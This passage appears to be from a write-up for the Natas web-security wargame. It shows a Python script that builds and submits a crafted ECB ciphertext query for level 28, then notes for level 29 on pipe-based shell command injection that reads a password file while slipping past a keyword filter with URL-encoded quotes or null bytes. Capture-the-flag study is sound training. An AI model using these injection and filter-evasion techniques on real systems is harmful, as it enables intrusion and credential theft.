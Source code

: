 ```

# take the middle ciphertext from the injection (the blocks we want to insert)
middle = raw_inject[block_size * 3:block_size * 3 + (blocks * block_size)]

print("=== Step 5: Constructing crafted ciphertext ===")
print("Header (3 blocks) length:", len(header))
print("Middle (injected) length (blocks * block_size):", len(middle))
print("Trailer length:", len(trailer))
print("Header (base64):", base64.b64encode(header).decode())
print("Middle (base64):", base64.b64encode(middle).decode())
print("Trailer (base64):", base64.b64encode(trailer).decode())
print()

crafted = header + middle + trailer
crafted_b64 = base64.b64encode(crafted).decode()
crafted_quoted = quote(crafted_b64, safe='').replace('/', '%2F')

print("Crafted final ciphertext (base64):", crafted_b64)
print("Crafted final ciphertext (URL-encoded):", crafted_quoted)
print()

# submit the crafted query and show server output
print("=== Step 6: Submitting crafted query and reading response ===")
resp = session.get(base_url + 'search.php/?query=' + crafted_quoted)
# print whole response length and first 400 chars to avoid huge dumps
print("Response HTTP status:", resp.status_code)
print("Response length (chars):", len(resp.text))
print("Response (first 400 chars):\n", resp.text[:400])
print()

m = re.findall(r'<li>(.*)</li>', resp.text)
if m:
    print("=== Extracted <li> content ===")
    for i, item in enumerate(m, start=1):
        print(f"{i}. {item}")
else:
    print("No <li> entries found in response. Full response saved to 'natas28_response.html'")
    with open('natas28_response.html', 'w', encoding='utf-8') as f:
        f.write(resp.text)
    print("Saved response to natas28_response.html for inspection.")
```   
This will get you the password for the next level.

### Natas Level 29 → Level 30
**Key Takeaways**  
* `index.pl?file=` forwards your file string into a Perl context that accepts pipes — you can inject shell commands by prefixing `|`.
* The application filters the token `natas`, so `cat /etc/natas_webpass/natas30` is blocked.
* Bypass the filter by breaking the literal natas string with inserted URL-encoded quotes (e.g. `na"t"as` → `na%22t%22as`), or try URL-encoded terminators (`%0a` or `%00`) to terminate the filename input.
* Send the crafted `GET` to `index.pl?file=…` (HTTP Basic auth for natas29) and the server will execute your command and include its output.
* Extract the password from the response body (it typically appears plainly).
  